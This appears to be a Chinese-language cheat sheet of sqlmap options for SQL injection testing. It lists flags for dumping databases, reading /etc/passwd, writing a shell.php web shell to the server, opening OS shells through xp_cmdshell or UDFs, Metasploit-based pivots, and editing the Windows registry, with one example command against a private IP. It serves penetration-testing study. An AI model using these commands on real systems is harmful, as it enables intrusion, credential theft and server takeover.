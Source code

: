 - `--mobile`                # **模拟移动设备**，就是设置UA，可以选择几种收集UA设置

- `--offline`               # 使用sesson文件（0网络连接）

- `--wizard`                # 向导

---
### 性能优化

- `--predict-output`        # /usr/share/sqlmap/txt/common-outputs.txt
    - 对返回结果匹配预设输出表，提高检测效率
    - 版本名、用户名（密码、权限、角色）数据库名称、表明、列明
    - 与`--threads`参数不兼容

- `--keep-alive`            # http(s)长连接，不兼容`--proxy`

- `--null-connection`       # 通过响应判断真假，适用于盲注（根据response的http头部返回的状态码、长度等不同而判断，不需要接收response body）
    - Range/ HEAD       # 降低带宽，不兼容`--text-only`

- `-o`                      # 以上三个参数全部

- `--threads`               # 最大并发请求数（最大10）
    - 不兼容`--predict-output`

---
### 榨取数据

- `-T users -D dvwa -C user -dolumns --search`

- `--schema --exclude-sysdbs`

- `--count/ --dump/ --start 1 --stop 3/ --first 3/ --last 5/ --where="id > 3"`

- `--dump-all --exclude-sysdbs`

- `--sql-query/ --sql-shell`        # 执行任意SQL语句（受服务器技术约束）
    > `--sql-query "select * from users"

- `--common-tables / --common-columns`      # 字典爆破

- `--udf-inject / --shared-lib`             # MySql/PostgresSql

---
### 文件访问

- `--file-read="/etc/passwd"`

- `--file-write="shell.php" --file-dest "/tmp/shell.php"`

- `--os-cmd/ --os-shell/ --sql-shell`
    - `mysql、postgresql`   # `sys_exec()、sys_eval() UDF`
    - `mssql`               # `xp_cmdshell`

### 带外连接

- 交互命令行、meterpreter、VNC          # 依赖**metasploit**

- `--os-pwn、--os-smbrelay(MS08-068)、--os-bof(MS09-004)`

### Windows注册表       # MySql、PostgresSql、MsSql

- `--reg-read/ -reg-add/ -reg-del`

- `--reg-key/ --reg-value/ --reg/data/ --reg-type`

- `sqlmap -u "http://192.168.1.12/a.php?id=1" --reg-add --reg-key="HKEY_LOCAL_MACHINE\SOFTWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1`




